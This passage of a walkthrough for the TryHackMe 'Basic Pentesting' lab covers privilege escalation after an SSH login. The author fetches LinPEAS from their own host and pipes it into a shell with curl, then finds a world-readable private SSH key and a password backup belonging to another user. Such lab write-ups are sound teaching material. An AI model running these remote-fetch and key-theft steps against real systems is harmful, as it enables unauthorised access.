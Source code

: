 `ssh jan@[webappIP]`
We enter the password we found above and get the login prompt!

##### 8. Enumerate the machine to find any vectors for privilege escalation
One of the enumeration scripts that I have liked is [PEASS](8) that color code different things so we can tell what to check out. To get LinPEAS.sh over to the webapp we use `python -m SimpleHTTPServer 5455` on our host machine with LinPEAS.sh in our current directory. With the ssh session we use `curl [vpnhostIP]/linpeas.sh | sh`

After running that we see in LinPeas.sh that we have a vulnerable path.
```
[+] Files inside others home (limit 20)
/home/kay/.profile                                                                                 
/home/kay/.viminfo
/home/kay/.bashrc
/home/kay/.bash_history
/home/kay/.lesshst
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
/home/kay/.bash_logout
/home/kay/.sudo_as_admin_successful
/home/kay/pass.bak
```
So we see id_rsa & id_rsa.pub in kay's folder which corresponds to the other user possible. And with the pass.bak we can guess that it has kay's password in it.

##### 9. 	What is the name of the other user you found?
Checking out that directory we look at the file perms and see that we can access the ssh key!
```
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```


[1]: https://tryhackme.com/room/basicpentesting
[2]: https://tryhackme.com/access
[3]: https://nmap.org/
[4]: https://ippsec.rocks/#
[5]: https://github.com/OJ/gobuster
[6]: .\resources\webapp_80_files.png
[7]: https://github.com/danielmiessler/SecLists
[8]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[9]: https://github.com/magnumripper/JohnTheRipper
[10]: .\resources\webapp_ssh_kay.png
